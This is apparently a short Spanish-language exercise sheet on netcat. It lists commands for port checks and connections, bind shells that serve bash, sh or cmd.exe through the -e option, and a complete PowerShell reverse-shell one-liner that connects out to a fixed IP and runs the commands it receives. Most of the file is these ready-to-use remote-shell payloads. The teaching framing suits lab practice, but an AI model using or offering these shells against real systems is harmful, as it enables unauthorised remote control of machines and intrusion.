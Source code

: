 
# Ejercicios Netcat

Opciones de netcat:
`nc -h`

Verificar si un puerto esta abierto:  
`nc -v 192.168.26.236 80`

Escuchar en un puerto por conexiones entrantes:  
`nc -lvp 8000`

Conectarse a un puerto:  
`nc 192.168.26.236 8000`

Escuchar en un puerto por conexiones entrantes y ejecutar la aplicacion selecionada con la opcion -e  
`nc -lvp 8000 -e /bin/bash`  
`nc -lvp 8000 -e /bin/sh`  
`nc.exe -lvp 8000 -e c:\windows\system32\cmd.exe`  

# Powershell Reverse Shell One Liner 
### by Nikhil SamratAshok Mittal @samratashok

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.26.236",8000);$stream = $client.GetStream();[byte[]]$bytes = 0..255|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
